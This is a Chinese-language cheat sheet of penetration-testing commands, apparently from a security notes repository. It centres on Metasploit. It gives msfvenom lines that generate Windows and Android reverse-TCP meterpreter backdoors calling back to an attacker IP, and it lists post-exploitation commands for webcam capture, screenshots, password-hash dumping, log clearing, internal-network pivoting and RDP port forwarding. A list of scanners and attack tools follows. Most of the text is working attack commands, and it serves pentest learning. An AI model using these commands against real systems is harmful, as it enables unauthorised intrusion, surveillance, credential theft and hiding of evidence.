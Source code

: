 综合框架
----------------------------------------

metasploit
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- Terminal下msf常用命令简介
	+ msf数据库初始化
		``msfdb init``
	+ msf更新
		``apt install metasploit framework``
	+ 多平台攻击载荷生成器
		``msfvenom``
	+ 将汇编指令转换成为对应的16进制机器码
		``msf-nasm_shell``
	+ 打开msf终端
		``msfconsole``
- msf终端下常用命令简介
	+ 查看数msf据库连接状态,连接数据库能够优化搜索等过程
		``db_status`` 
	+ 重建缓存，将模块等索引重新存入数据库
		``db_rebuild_cache``
	+ 调用nmap扫描，并将扫描结果存入数据库
		``db_nmap``
	+ 显示命令的帮助信息
		``help [db_connect]``
	+ 搜索含有关键字的模块
		``search [module]``
	+ 选择模块
		``use [module]``
	+ 显示该模块支持的payload
		``show payload``
	+ 显示该模块需要设置的参数(其中required为no的表示不是必须的参数)
		``show options``
	+ 如果觉得show命令显示的不够完整可以直接输入info查看详细详细
		``info``
	+ 使用模块后，设置模块所需要的参数的值(对应使用unset取消设置的值)
		``set [opt]``
	+ 设置全局参数，对于ip之类的参数可以设置为全局，当切换模块后就不需要再次设置ip参数(对应使用unsetg取消设置)
		``setg [opt]``
	+ 返回上级状态
		``back``
	+ 两个命令都表示运行攻击模块
		``exploit/run``
	+ 查看当前连接的会话
		``sessions``
- 使用msfvenom生成木马文件
	+ 查看可使用的载荷/编码器/nops/所有列表
		``msfvenom -l payload/encoders/nops/all``
	+ 生成exe木马
		``msfvenom -p windows/x64/meterpreter_reverse_tcp lhost=192.168.16.99 lport=4444 -a x64 -f exe -o backdoor_raw.exe`` 
	+ 生成apk木马
		``msfvenom -p android/meterpreter_reverse_tcp lhost=192.168.16.99 lport=4444 -o backdoor_raw.apk``
- meterpreter后渗透利用
	+ 打印当前工作目录：pwd
	+ 查看系统信息：sysinfo
	+ 查看当前目标机上运行的进程列表和pid：ps
	+ 调用相机拍摄照片：webcam_snap
	+ 运行vnc远程查看屏幕：run vnc
	+ 远程桌面3389（windows）：run post/windows/manage/enable_rdp
	+ 截取目标主机当前屏幕​：screenshot
	+ 获取当前权限的用户id：getuid
	+ 获取system权限：getsystem
	+ 获取用户名与hash口令：hashdump
	+ 获取目标主机shell(windows环境下中文乱码的解决办法:chcp 65001）：shell
	+ 退出shell模式，返回到meterpreter：Ctrl+Z
	+ 上传一个文件：upload
	+ 下载一个文件：download
	+ 执行目标系统中的文件(-f 指定文件，-i执行可交互模式，-H隐藏窗口)：excute
	+ 清除日志：clearev
	+ 将Meterpreter放入后台(使用session -i重新连接到会话)：background
- meterpreter内网渗透
	+ 获取目标主机上的子网状态：run get_local_subnets
	+ 使用autoroute模块添加到达内网的路由经session 1转发：run autoroute -s 169.254.0.0/16 1
	+ 查看当前的路由表：run autoroute -p
	+ 扫描内网存活主机：db_nmap
	+ 将目标主机192.168.16.59的3389转发到本地主机的7070端口：portfwd add -l 7070 -r 192.168.16.59 -p 3389
	+ 端口转发成功后就可以从本地端口连接rdp：rdesktop 127.0.0.1:7070

其它
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- AWVS
- openvas
- nessus
- `PenTesters Framework(ptf) <https://github.com/trustedsec/ptf>`_
- katoolin
- `w3af <http://w3af.org/>`_
- `AutoSploit <https://github.com/NullArray/AutoSploit/>`_
- `skipfish <https://my.oschina.net/u/995648/blog/114321>`_
- `Arachni <http://www.arachni-scanner.com/>`_
- `Spiderfoot <https://github.com/smicallef/spiderfoot>`_
- `AZScanner <https://github.com/az0ne/AZScanner>`_
- `Fuxi <https://github.com/jeffzh3ng/Fuxi-Scanner>`_
- `vooki <https://www.vegabird.com/vooki/>`_
- `BadMod <https://github.com/MrSqar-Ye/BadMod>`_
- `xray <https://github.com/chaitin/xray>`_
- `x-scan <https://x-scan.apponic.com/>`_
